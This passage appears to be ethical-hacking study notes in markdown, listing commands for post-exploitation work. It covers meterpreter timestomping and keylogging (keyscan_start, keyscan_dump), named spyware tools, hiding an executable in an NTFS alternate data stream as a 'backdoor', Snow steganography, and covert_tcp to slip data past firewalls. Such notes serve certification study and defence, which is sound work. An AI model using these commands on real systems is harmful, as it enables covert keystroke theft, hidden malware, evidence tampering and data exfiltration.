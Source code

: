 >  MACE value
- `timestomp secret.txt -m "01/01/2020 8:09:29"`
- `timestomp secret.txt -v`


## <span style="color: #3498db; font-size: 0.8em;">  Keylogger</span>

>  keyscan
- meterpreter > `keyscan_start`
- meterpreter > `keyscan_dump`


## <span style="color: #3498db; font-size: 0.8em;">  System Monitoring</span>

* Remote Desktop Connection (RDP)
* Power Spy (Windows)
* Log view
* SpyAgent


## <span style="color: #3498db; font-size: 0.8em;">  Hide Files</span>

>  Hidden a exe onto a txt
- `type c:\\calc.exe > c:\\readme.txt:calc.exe`
 - `mklink backdoor.exe readme.txt:calc.exe`


## <span style="color: #3498db; font-size: 0.8em;">  Hide Data - Steganography</span>

>  Snow

Hide data: `snow.exe -C -m "text" -p "password" text1.txt text2.txt`
	* 'password' is the password. The data text is hidden inside the text2.txt
	* the file text2.txt has become a combination of text1.txt and text
 Extract data: `snow.exe -C -p "password" text2.txt`
	* It shows the context of text1.txt

> Covert_tcp (bypass firewalls and send data)
- machine 1:
	`copy covert_tcp.c file`
	`mkdir send`
	`cd send`
	`paste covert_tcp.c file`
	`echo "secret message" > message.txt`
	`cc -o covert_tcp covert_tcp.c`
- machine 2:
	`mkdir receive`
	`cd receive`
	`copy covert_tcp.c file`
	`cc -o covert_tcp covert_tcp.c`
	`./covert_tcp -dest IP -source IP -source_port port -dest_port port -server -file /home/Desktop/Receive/receive.txt`
- machine 1:
	`./covert_tcp -dest IP -source IP -source_port port -dest_port port -server -file /home/Desktop/Send/message.txt`
